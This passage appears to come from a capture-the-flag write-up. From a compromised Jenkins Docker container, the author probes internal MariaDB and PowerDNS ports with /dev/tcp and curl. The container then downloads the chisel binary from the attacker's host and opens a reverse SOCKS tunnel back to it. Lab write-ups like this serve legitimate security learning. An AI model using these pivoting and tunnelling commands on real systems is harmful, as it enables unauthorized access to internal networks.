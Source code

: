 This [blog post](https://blog.oddbit.com/post/2015-03-08-converting-hexadecimal-ip-addr/) explains that the addresses are in little-endian and hex. By converting we find out that the default gateway is `172.18.0.1` and that the subnet used is `172.18.0.0./16`. We can deduce that `172.18.0.1` is the Docker host and that the containers have IP addresses starting from `172.18.0.2`.

In the `nmap` scan we found that port 3306 and 8081 were filtered, but we may be able to reach them now that we're inside the internal Docker subnet. Let's check:

```shell
root@5ac6c7d6fb8e:~# cat < /dev/tcp/172.18.0.1/3306
i
11.3.2-MariaDB-1:11.3.2+maria~ubu2204?qNsy&M4Z-I><Re'2by\=^mysql_native_password^Z
[3]+  Stopped                 cat < /dev/tcp/172.18.0.1/3306
```

```shell
root@5ac6c7d6fb8e:~# curl http://172.18.0.1:8081 -I
HTTP/1.1 401 Unauthorized
Transfer-Encoding: chunked
Connection: close
Content-Type: text/plain; charset=utf-8
Www-Authenticate: Basic realm="PowerDNS"
```

We can indeed reach them now. There's the [PowerDNS webserver](https://doc.powerdns.com/authoritative/http-api/index.html) listening on port 8081 protected with basic auth but we'll not end up using it to solve the box. However the MariaDB listening on port 3306 is interesting and to be able to use tools and reach it from Kali I'll use [chisel](https://github.com/jpillora/chisel) to setup a SOCKS proxy.

We can get the latest `linux_amd64` binary from [Releases](https://github.com/jpillora/chisel/releases/tag/v1.9.1) and transfer it to the Jenkins container:

```shell
└─$ python3 -m uploadserver 80
File upload available at /upload
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.70.114 - - [10/May/2024 20:24:54] "GET /chisel HTTP/1.1" 200 -
```

```shell
root@5ac6c7d6fb8e:~# curl http://10.8.1.246/chisel -sO
root@5ac6c7d6fb8e:~# chmod +x chisel
```

Then [setup the SOCKS proxy](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel#bkmrk-reverse-dynamic-sock):

```shell
└─$ ./chisel server --reverse --port 54321
2024/05/10 20:26:24 server: Reverse tunnelling enabled
2024/05/10 20:26:24 server: Fingerprint BN1Cwtq8UN7diBlk7ATLnIfRGIHB1gGthlCdXLloUJ8=
2024/05/10 20:26:24 server: Listening on http://0.0.0.0:54321
2024/05/10 20:27:32 server: session#1: tun: proxy#R:127.0.0.1:9050=>socks: Listening
```

```shell
root@5ac6c7d6fb8e:~# ./chisel client 10.8.1.246:54321 R:9050:socks &
[2] 3271
root@5ac6c7d6fb8e:~# 2024/05/10 18:27:34 client: Connecting to ws://10.8.1.246:54321
2024/05/10 18:27:35 client: Connected (Latency 20.801339ms)
```
